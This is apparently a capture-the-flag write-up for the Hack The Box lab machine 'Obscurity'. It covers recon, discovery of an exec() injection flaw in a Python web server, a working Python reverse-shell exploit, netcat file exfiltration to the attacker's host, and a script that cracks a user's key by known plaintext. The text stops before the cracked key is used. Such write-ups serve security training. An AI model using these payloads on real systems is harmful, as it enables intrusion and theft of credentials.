

# Obscurity

### Address: 10.10.10.168

### Recon
`sudo nmap -sS -T4 -O -p1-65535 10.10.10.168`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 18:30 EST
Stats: 0:00:46 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 35.92% done; ETC: 18:32 (0:01:24 remaining)
Nmap scan report for 10.10.10.168
Host is up (0.015s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   closed http
8080/tcp open   http-proxy
9000/tcp closed cslistener
Aggressive OS guesses: Linux 3.2 - 4.9 (94%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.18 (92%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.16 (91%), Oracle VM Server 3.4.2 (Linux 4.1) (91%), Crestron XPanel control system (91%), Android 4.1.1 (91%), Adtran 424RG FTTH gateway (90%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.30 seconds
kali@kali:~$ sudo nmap -A -p22,80,8080,9000 10.10.10.168
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 18:34 EST
Nmap scan report for 10.10.10.168
Host is up (0.022s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Sat, 07 Mar 2020 23:35:30
|     Server: BadHTTPServer
|     Last-Modified: Sat, 07 Mar 2020 23:35:30
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!--
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener

Aggressive OS guesses: Linux 3.2 - 4.9 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.18 (92%), Linux 3.16 (91%), Oracle VM Server 3.4.2 (Linux 4.1) (91%), Crestron XPanel control system (91%), Android 4.1.1 (91%), Android 4.2.2 (Linux 3.4) (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 9000/tcp)
HOP RTT      ADDRESS
1   23.57 ms 10.10.14.1
2   28.85 ms 10.10.10.168

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.73 seconds
```

The web service page source code reveals the following.
```html
<h4 class="experience-title accent">Server Dev</h4>
<p class="education-description">Message to server devs: the current source code for the web server is in 'SuperSecureServer.py' in the secret development directory</p>
```
<br>

This provides a unique point for pivoting. `SuperSecureServer.py` must exist somewhere. We can use Wfuzz to enumerate possibilities.
`wfuzz -w /usr/share/wordlists/dirb/big.txt --hc 404 http://obscure.htb:8080/FUZZ/SuperSecureServer.py`
```
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://obscure.htb:8080/FUZZ/SuperSecureServer.py
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                     
===================================================================

000006016:   200        170 L    498 W    5892 Ch     "develop"                                                   

Total time: 90.29689
Processed Requests: 20469
Filtered Requests: 20468
Requests/sec.: 226.6855
```

Now pull the file down for further analysis.
`wget http://obscure.htb:8080/develop/SuperSecureServer.py`
The flaw in their code is seen here. The info variable line and exec function is the hole we need to inject a reverse shell.
```python
    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
```

Get creative, if you wish. The pre-text does not really matter.
```python
#!/usr/bin/env python3
from sys import argv
import requests
import urllib
import os

address = '{}/'.format(argv[3])
revshell = 'LOL\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{}",{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash", "-i"])\na=\''.format(argv[1], argv[2])
payload = urllib.parse.quote(revshell)

#print(address + payload)
RESPONSE = requests.get(address + payload)
print(RESPONSE.headers)
print(RESPONSE.text)
```

This reverse shell payload can be executed against the SuperSecureServer.py service running on tcp/8080.<br>
<br>

And now we have a foothold on the account running SuperSecureServer.py as a service. Now the real fun begins.

I like to start by identifying the processes running under my foothold account (www-data in this scenario).
`www-data@obscure:/$ ps aux | grep www-data`
```
www-data   1478  0.0  0.1  20048  3552 tty1     Ss   22:58   0:00 /bin/bash /var/SuperSecureServer/init.sh
www-data   1483  0.0  0.3 179916 11752 tty1     Sl   22:58   0:00 /usr/bin/python3 /var/SuperSecureServer/main.py
www-data   1913  0.0  0.1  20180  3996 tty1     S    23:22   0:00 /bin/bash -i
www-data   2271  0.0  0.1  38372  3708 tty1     R+   23:54   0:00 ps aux
www-data   2272  0.0  0.0  13136  1072 tty1     S+   23:54   0:00 grep www-data

```

/var/SuperSecureServer/ is an interesting path. Maybe we can read the directory.
`www-data@obscure:/$ ls -lh /var/SuperSecureServer`
yes, we can! robert is listed as an owner of these files.
```
total 28K
drwxr-xr-x 8 robert robert 4.0K Oct  5  2019 DocRoot
-rwxr-xr-x 1 root   root    103 Nov 26  2019 init.sh
-rwxr-xr-x 1 root   root    200 Nov 26  2019 keepalive.sh
-rw-r--r-- 1 robert robert  259 Oct  5  2019 main.py
drwxr-xr-x 2 robert robert 4.0K Nov 26  2019 __pycache__
-rw-r--r-- 1 root   root   5.8K Nov 26  2019 SuperSecureServer.py
```
Let's see if we can read other directories and files that robert owns.
`www-data@obscure:/$ find / -user robert 2> /dev/null | grep -Ev '^(/proc/|/var/SuperSecureServer/)'`
```
/var/SuperSecureServer
/home/robert
/home/robert/.bash_logout
/home/robert/user.txt
/home/robert/.bashrc
/home/robert/passwordreminder.txt
/home/robert/.local
/home/robert/.local/share
/home/robert/.gnupg
/home/robert/check.txt
/home/robert/SuperSecureCrypt.py
/home/robert/out.txt
/home/robert/.bash_history
/home/robert/.profile
/home/robert/.cache
/home/robert/.config
```

Well well wellllllll. Looks like robert got sloppy with his home directory's file permissions.
`www-data@obscure:/home/robert$ ls -alh`
```
total 60K
drwxr-xr-x 7 robert robert 4.0K Dec  2  2019 .
drwxr-xr-x 3 root   root   4.0K Sep 24  2019 ..
lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3.7K Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4.0K Dec  2  2019 BetterSSH
drwx------ 2 robert robert 4.0K Oct  3  2019 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4.0K Dec  2  2019 .config
drwx------ 3 robert robert 4.0K Oct  3  2019 .gnupg
drwxrwxr-x 3 robert robert 4.0K Oct  3  2019 .local
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2.5K Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt

```


Now we peruse robert's files and transfer anything of interest using netcat.
```
www-data@obscure:/home/robert$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!

www-data@obscure:/home/robert$ cat out.txt
¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v

www-data@obscure:/home/robert$ cat passwordreminder.txt
´ÑÈÌÉàÙÁÑ鯷¿kwww-data@obscure:/home/robert$

www-data@obscure:/home/robert$ ls -lh BetterSSH
total 4.0K
-rwxr-xr-x 1 root root 1.8K Oct  5  2019 BetterSSH.py
```
On our kali machine, we can open a socket to accept any interesting files.
`kali@kali:~$ nc -nlvp 9000 > BetterSSH_copy.`
```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
```

Back to our pal robert....
```
www-data@obscure:/home/robert$ cd BetterSSH
www-data@obscure:/home/robert/BetterSSH$ nc 10.10.14.36 9000 < BetterSSH.py

www-data@obscure:/home/robert/BetterSSH$ md5sum BetterSSH.py
91f9b055de93ea34b0d789dd4d57c523  BetterSSH.py
```

It's always good to verify file integrity just in case something was lost or corrupted during transfer.
On our Kali workstation, break out of our netcat session and verify the md5sum matches.
```
Ncat: Connection from 10.10.10.168.
Ncat: Connection from 10.10.10.168:39768.
^C
kali@kali:~$ md5sum BetterSSH_copy.py
91f9b055de93ea34b0d789dd4d57c523  BetterSSH_copy.py
```

And there's on more file of interest....
```
www-data@obscure:/home/robert$ nc 10.10.14.36 9000 < SuperSecureCrypt.py
www-data@obscure:/home/robert$ md5sum SuperSecureCrypt.py
md5sum SuperSecureCrypt.py
3c2b0c8126d8b0fbd043c6a2c270f7ab  SuperSecureCrypt.py
```

on our kali workstation
```
kali@kali:~$ nc -nlvp 9000 > SuperSecureCrypt_copy.py
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:
Ncat: Connection from 10.10.10.168.
Ncat: Connection from 10.10.10.168:39842.
^C
kali@kali:~$ md5sum SuperSecureCrypt_copy.py
3c2b0c8126d8b0fbd043c6a2c270f7ab  SuperSecureCrypt_copy.py
```

SuperSecureCrypt.py is the most interesting find. This is the base code for encrypting AND decrypting data. The true significance here is that a control is provided for us in the form of the check.txt and out.txt files. Copy them from robert's home directory! We can use this as a validity check in a credential stuffing attack.
```
www-data@obscure:/home/robert$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!

www-data@obscure:/home/robert$ cat out.txt
¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v

www-data@obscure:/home/robert$ md5sum out.txt
7c8230e2429e85d94a8c5604e726c013  out.txt

www-data@obscure:/home/robert$ md5sum check.txt
efeb69264c227272d9d3efcf8f58ed9f  check.txt
```

Do yourself a favor and set the `out.txt` copy on your kali workstation to read-only. You don't want to accidentally overwrite our comparison measurement with invalid data. That would be frustrating to say the least.

`kali@kali:~/htb/boxes/obscure$ chmod 400 out.txt`

Here is a copy of the original code.
```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')

parser.add_argument('-i',
                    metavar='InFile',
                    type=str,
                    help='The file to read',
                    required=False)

parser.add_argument('-o',
                    metavar='OutFile',
                    type=str,
                    help='Where to output the encrypted/decrypted file',
                    required=False)

parser.add_argument('-k',
                    metavar='Key',
                    type=str,
                    help='Key to use',
                    required=False)

parser.add_argument('-d', action='store_true', help='Decrypt mode')

args = parser.parse_args()

banner = "################################\n"
banner+= "#           BEGINNING          #\n"
banner+= "#    SUPER SECURE ENCRYPTOR    #\n"
banner+= "################################\n"
banner += "  ############################\n"
banner += "  #        FILE MODE         #\n"
banner += "  ############################"
print(banner)
if args.o == None or args.k == None or args.i == None:
    print("Missing args")
else:
    if args.d:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Decrypting...")
        decrypted = decrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(decrypted)
    else:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Encrypting...")
        encrypted = encrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(encrypted)
```

My initial instinct was to leave this code in tact and leverage it within my own BASHtardization. This, however, was a flop.
I suspect my BASH logic was incorrect in some places, but it went something like this. This... *might* work with some massaging, but the real problem is the disk IOPS. It is simply too slow. We'd be here for a long time waiting for invalid results to prove invalid before finding our needle.
```bash
#!/bin/bash

original=$(md5sum out.txt | awk '{ print $1 }')
cracked=0
last=$(head -n1 $1)
fucked="notyet"
while [[ $original != $cracked ]]; do
  for a in $(tac $1); do
    python3 SuperSecureCrypt.py -o crack.txt -k $a -i check.txt > /dev/null
    cracked=$(md5sum crack.txt | awk '{ print $1 }')
    if [[ $original == $cracked ]]; then
      echo "found passphrase: [[ ${a} ]]"
    elif [[ $a == $last ]]; then
      echo "no luck with $1"
      fucked="yes"
    else
      echo "not it { $a }"
    fi
  done
  if [[ $fucked == "yes" ]]; then
    break
  fi
done
```

So forget using bash. We need to modify the original code to leverage the power of MEMORY!

We are going to modify a few things.
- add parser argument `-u` ; this will specify the file path of our dictionary for credential stuffing
- comment out the first if statement after the banner
- replace that if statement with a flag of your choosing; you'll reference this when executing
  - within this if statement...
  - open the out.txt file and read it into memory
  - open the dictionary file and read it into memory
  - open check.txt and read it into memory
  - loop through your dictionary in memory
    - for each entry, pass your check.txt data and your dictionary word to the encrypt function
    - compare the newly encrypted data to the out.txt data
    - if they match... well, that's robert's password

I named this file `AntiCrypt.py`.

```python
import sys
import argparse
import hashlib

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted


parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')

parser.add_argument('-i',
                    metavar='InFile',
                    type=str,
                    help='The file to read',
                    required=False)

parser.add_argument('-o',
                    metavar='OutFile',
                    type=str,
                    help='Where to output the encrypted/decrypted file',
                    required=False)

parser.add_argument('-k',
                    metavar='Key',
                    type=str,
                    help='Key to use',
                    required=False)

parser.add_argument('-q',
                    metavar='Crack',
                    type=str,
                    help='crack mode',
                    required=False)

parser.add_argument('-u',
                    metavar='MyDict',
                    type=str,
                    help='fucking dictionary yo',
                    required=False)

parser.add_argument('-d', action='store_true', help='Decrypt mode')

args = parser.parse_args()

banner = "################################\n"
banner+= "#           BEGINNING          #\n"
banner+= "#    SUPER SECURE ENCRYPTOR    #\n"
banner+= "################################\n"
banner += "  ############################\n"
banner += "  #      NOT THAT HARD       #\n"
banner += "  ############################"
print(banner)
# if args.o == None or args.k == None or args.i == None:
#     print("Missing args")
if args.q == "suckit":
    with open('out.txt', 'r', encoding='UTF-8') as f:
        ogdata = f.read().replace('\n', '')
        # oghash = hashlib.md5(f).hexdigest()
        print(ogdata)
    with open(args.u, 'r', errors='replace') as f:
        C = f.readlines()
    with open(args.i, 'r', encoding='UTF-8') as F:
        data = F.read()
    for c in C:
        try:
            encrypted = encrypt(data, c.rstrip())
        except:
            pass
        if encrypted == ogdata:
            print("cracked passphrase [[ {} ]]".format(c.strip()))
            break
```

Here we goooooooo<br>
<br>

wonk wonk wonkkkkk. There must be something to this. Oh right. There was another file in robert's home directory-- `passwordreminder.txt`. Copy that file to our kali workstation, run it through the original SuperSecuryCrypt.py code and use our cracked passphrase.<br>
<br>
